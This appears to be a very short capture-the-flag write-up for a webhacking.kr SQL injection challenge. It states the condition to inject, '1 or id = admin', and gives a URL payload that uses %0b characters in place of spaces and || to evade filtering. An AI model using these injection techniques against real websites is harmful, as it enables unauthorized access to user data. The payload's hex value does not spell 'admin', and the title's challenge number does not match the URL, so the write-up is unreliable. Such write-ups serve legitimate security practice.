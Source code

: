 # Webhacking old-50 Solution

another sql injection.
here we want to insert this: `1 or id = 'admin'`
```
https://webhacking.kr/challenge/web-24/?lv=6%0b||id=0x661646D696E%0b
```

